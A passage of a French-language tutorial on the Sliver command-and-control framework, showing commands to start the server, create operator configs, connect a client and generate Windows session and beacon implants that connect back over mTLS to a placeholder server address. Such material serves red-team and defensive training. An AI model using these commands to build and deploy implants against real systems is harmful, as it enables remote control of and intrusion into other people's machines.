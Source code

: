 
## 2. Configuration Initiale du Serveur

### 2.1 Démarrage du serveur Sliver
```bash
# Démarrage en mode single-user
sudo sliver-server
```

### 2.2 Configuration multi-utilisateur (optionnel)
```bash
# Génération d'un fichier de configuration client
sudo sliver-server operator --name [nom_operateur] --lhost [IP_serveur]

# Copie du fichier de configuration généré
cp /root/.sliver-client/configs/[nom_operateur]_[IP].cfg ~/sliver-client.cfg
```

### 2.3 Connexion client
```bash
# Dans un nouveau terminal
sliver-client
```

---

## 3. Génération d'Implants

### 3.1 Génération d'un implant Windows basique
```bash
# Implant session (connexion immédiate)
generate --mtls [IP_SERVEUR]:[PORT] --os windows --arch amd64 --format exe --save /tmp/implant.exe

# Implant beacon (connexion périodique)
generate beacon --mtls [IP_SERVEUR]:[PORT] --os windows --arch amd64 --format exe --save /tmp/beacon.exe
```

### 3.2 Génération d'implants avec options avancées
```bash
# Implant avec personnalisation
generate --mtls [IP_SERVEUR]:443 \
    --os windows \
    --arch amd64 \
    --format exe \
    --name MonImplant \
    --jitter 30s \
    --limit-datetime "2024-12-31 23:59:59" \
    --save /tmp/implant_custom.exe
```
